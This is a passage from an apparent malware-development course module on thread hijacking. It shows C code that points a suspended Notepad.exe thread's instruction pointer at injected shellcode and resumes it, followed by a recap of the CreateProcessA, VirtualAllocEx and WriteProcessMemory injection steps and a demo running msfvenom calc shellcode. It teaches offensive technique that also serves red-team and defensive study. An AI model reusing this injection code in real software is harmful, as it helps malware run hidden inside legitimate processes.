 ```c
	ThreadCtx.Rip = pAddress;
  
	// setting the new updated thread context
	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("\n\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// resuming suspended thread, thus running our payload
	ResumeThread(hThread);
	
	WaitForSingleObject(hThread, INFINITE);
	
	return TRUE;
}
```

### Conclusion

A quick recap of what was demonstrated in this module:

1. A new process was created in a suspended state using `CreateProcessA`, which created all of its threads in a suspended state as well.
    
2. The payload was injected into the newly created process using `VirtualAllocEx` and `WriteProcessMemory` but was not executed.
    
3. Used the thread handle returned from `CreateProcessA` to execute the payload via thread hijacking.
    

### Demo

This demo uses `Notepad.exe` as the sacrificial process, hijacks its thread and executes the Msfvenom calc shellcode.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/rthread-hijack-108970868-ca84b0fe-ce83-447e-b7a1-4116559bc414.png)